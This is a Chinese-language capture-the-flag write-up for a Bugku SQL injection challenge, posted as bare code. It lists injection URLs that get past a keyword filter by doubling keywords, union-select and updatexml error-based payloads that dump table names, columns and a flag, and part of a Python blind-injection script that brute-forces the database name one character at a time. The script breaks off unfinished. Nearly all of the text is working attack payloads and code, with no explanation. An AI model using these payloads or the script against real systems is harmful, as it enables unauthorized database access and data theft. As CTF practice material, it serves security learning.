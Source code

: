 ```
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 ununionion seselectlect 1, group_concat(flag1，) from flag1 %23
//usOwycTju+FTUUzXosjr  emmmm提交错误

http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect 1, group_concat(address) from flag1 %23
//     ./Once_More.php

****************进入到另一个页面********

//尝试注入  发现有报错   即尝试报错注入updatexml
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),3) %23
//class,flag2

//列
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name ='flag2'),'~'),3) %23

//查数据
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select flag2 from flag2),'~'),3) %23
//结果  flag{Bugku-sql_6s-2i-4t-bug}  记住flag 为小写
```

[大佬](https://www.jianshu.com/p/ae6e5a885588)写的一个盲注脚本

```
import requests

def length_schema():
    for x in range(1,20):
        url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and length(database())='+str(x)+'%23'
        s = requests.get(url)
        if "Hello" in s.text:
            print ('schema_length is :' + str(x))
            global a
            a = int(x)
            break
        
def schema_name():
    x = 0
    name = ''
    while x < a:
        x = x + 1
        temp = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~' 
        for i in temp:
            url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and mid(database(),'+ str(x) +',1)=%27'+str(i)+'%27 %23'
            s = requests.get(url)
            if "Hello" in s.text:
                name = name + str(i)

    print ('sechma_name is :' + name)
    global schema_name
    schema_name = name

def all():
    temp = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~'
    temp_data = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    for x in xrange(0,20):
```